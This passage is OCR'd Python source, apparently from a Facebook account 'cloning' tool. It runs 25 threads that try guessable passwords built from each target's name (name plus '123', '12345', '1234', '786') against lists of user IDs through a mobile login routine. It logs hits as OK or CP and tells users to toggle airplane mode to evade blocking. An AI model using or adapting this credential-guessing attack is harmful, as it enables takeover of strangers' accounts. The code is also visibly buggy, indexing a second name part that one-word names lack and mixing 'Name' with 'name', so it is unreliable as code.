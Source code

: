 						if len(xz) == 1:

							pwx = [Name, xz[0]+xz[1], xz[0]+"123", xz[0]+"12345", xz[0]+'1234']

						elif len(xz) == 2:

							pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"12345", xz[0]+'1234']

						elif len(xz) == 3:

							pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"12345", xz[0]+'1234']

						elif len(xz) == 4:

							pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"12345", xz[0]+'1234']

						else:

							pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"12345", xz[0]+'1234']

						_ngentot_gratis_.submit(self.__mbasic__, uid, pwx)

					except:

						pass

			os.remove(self.apk)

			hasil(ok,cp)

		elif yan in ('2', '02'):

			os.system("clear")

			print(banner)

			time.sleep(1)

			print('\033[1;37m[+]\033[1;33m File CLONING CP/OK IDS MIX ')

			print('\033[1;37m[+]\033[1;36m TOTAL IDS \033[1;91m: \033[1;32m%s ' % len(self.id))

			print('\033[1;37m[+]\033[1;36mPHD PROCESS HAS BEEN STARTED')

			print(50*"\033[1;97m_")

			print('      \033[1;97m\033[1;41m [ IF  NO RESULT USE AIRPLANE MODE ] \033[0m\033[1;93m')

			print(50*"\033[1;97m_")

			with ThreadPoolExecutor(max_workers=25) as (_ngentot_gratis_):

				for yntkts in self.id:

					try:

						uid, name = yntkts.split('|')

						xz = name.split(' ')

						if len(xz) == 1:

							pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"12345", xz[1]+'1234', xz[1]+'786']

						elif len(xz) == 2:
